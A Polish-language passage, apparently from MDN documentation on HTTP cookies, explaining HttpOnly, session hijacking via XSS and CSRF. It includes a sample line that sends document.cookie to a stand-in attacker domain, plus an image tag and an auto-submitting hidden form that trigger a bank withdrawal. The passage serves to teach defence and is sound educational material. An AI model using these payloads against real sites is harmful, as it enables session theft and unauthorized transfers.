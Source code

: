 ```js
document.cookie = "yummy_cookie=choco";
document.cookie = "tasty_cookie=strawberry";
console.log(document.cookie);
// logs "yummy_cookie=choco; tasty_cookie=strawberry"
```

Ciasteczka stworzone z użyciem JavaScriptu nie mogą zawierać flagi `HttpOnly`.

Ciasteczka dostępne dla JavaScriptu są narażone na cyberataki. Więcej szczegółów znajduje się w poniższej sekcji[.](/pl/docs/Web/HTTP/Cookies#Security)

## Bezpieczeństwo

> **Note:** Należy zawsze pamiętać, że informacje przechowywane w ciasteczkach będą widoczne i mogą zostać zmodyfikowane przez użytkownika. W zależności od aplikacji, pożądane może być użycie nieprzejrzystego identyfikatora sprawdzanego po stronie serwera lub rozważenie alternatywnych mechanizmów uwierzytelniania/poufności takich jak JSON Web Tokens.

### Przejmowanie sesji i XSS

Ciasteczka są często używane w aplikacjach webowych do identyfikowania użytkownika i jego uwierzytelnionej sesji, więc kradzież ciasteczka może prowadzić do jej przejęcia. Powszechnymi sposobami kradzieży ciasteczek są inżynieria społeczna i wykorzystywanie podatności XSS w aplikacjach.

```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie?cookie=" + document.cookie;
```

Atrybut `HttpOnly` może pomóc uniknąć tego ataku poprzez zablokowanie JavaScriptowi dostępu do wartości ciasteczka.  Sposobem na złagodzenie skutków takiego ataku jest wdrożenie surowej [polityki bezpieczeństwa treści (_CSP_)](/pl/docs/Web/HTTP/CSP).

### Cross-site request forgery (CSRF)

Na stronie [Wikipedii](https://en.wikipedia.org/wiki/HTTP_cookie#Cross-site_request_forgery) znajduje się dobry przykład {{Glossary("CSRF")}}. W tej sytuacji ktoś załączył element "img", który tak na prawdę nie jest obrazem (np. na niefiltrowanym czacie lub forum), a zamiast tego jest żądaniem do serwera banku użytkownika mającym na celu wypłatę pieniędzy:

```html
<img src="https://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

Jeżeli jesteś aktualnie zalogowany na swoim koncie bankowym i odpowiadające ciasteczka są dalej aktualne (i nie ma żadnej dodatkowej walidacji), to próba załadowania "obrazka" zakończy się przelewem pieniędzy. Dla punktów końcowych wymagających żądania POST jest możliwe aby  programowo wykonać potwierdzenie formularza (być może zawartego w niewidzialnym elemencie `<iframe>`) gdy strona jest ładowana:

```html
<form action="https://bank.example.com/withdraw" method="POST">
  <input type="hidden" name="account" value="bob">
  <input type="hidden" name="amount" value="1000000">
  <input type="hidden" name="for" value="mallory">
</form>
<script>window.addEventListener('DOMContentLoaded', (e) => { document.querySelector('form').submit(); }</script>
```
